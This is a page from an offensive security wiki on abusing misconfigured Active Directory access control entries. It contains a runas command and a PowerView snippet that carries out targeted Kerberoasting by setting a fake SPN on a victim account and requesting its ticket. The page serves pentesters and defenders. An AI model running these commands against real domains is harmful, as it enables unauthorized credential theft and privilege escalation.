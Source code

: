 # Access Control Entries \(ACEs\)

## Theory

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry \(ACE\). Access Control Entries describe the allowed and denied permissions for a principal in Active Directory against a securable object \(user, group, computer, container, organization unit \(OU\), GPO and so on\)

DACLs \(Active Directory Discretionary Access Control Lists\) are lists made of ACEs \(Access Control Entries\).

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

## Practice

{% hint style="info" %}
The attacker needs to be in control of the object the ACE is set on to abuse it and possibly gain control over what this ACE applies to.

The following abuses can only be carried out when running commands as the user the ACE is set on. On Windows systems, this can be achieved with the following command.

```bash
runas /netonly /user:$DOMAIN\$USER
```

All abuses below can be carried out on a Windows system \(the system doesn't even have to be enrolled in the domain\). 

On UNIX-like systems, a few of the following abuses can be carried out. The [aclpwn](https://github.com/fox-it/aclpwn.py) could maybe do the job in most cases. Personally, I always encountered errors and unsupported operations when trying to use it but I will probably do some further tests to include it here.
{% endhint %}

{% hint style="success" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. This can be useful when trying to this from a Windows system that isn't enrolled in the AD domain.

Here is an example with targeted Kerberoasting \(see [`GenericAll`](./#genericall), [`GenericWrite`](./#genericwrite)\).

```bash
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endhint %}

### Exploitation paths

In order to navigate the notes, you can use the following mindmap

![](../../../.gitbook/assets/abusing-aces.png)

All of the aforementioned attacks \(red blocks\) are detailed in the child notes, except:

* **Kerberos RBCD**: see [ADDS &gt; Movement &gt; Kerberos &gt; Kerberos Delegations &gt; RBCD](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd)
* **GPO abuses**: see [ADDS &gt; Movement &gt; GPOs](../abusing-gpos.md)

## Resources

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces\#genericall-on-user" caption="" %}

{% embed url="https://wald0.com/?p=112" caption="" %}

{% embed url="http://www.selfadsi.org/deep-inside/ad-security-descriptors.htm" %}

{% embed url="https://adsecurity.org/?p=3658" %}





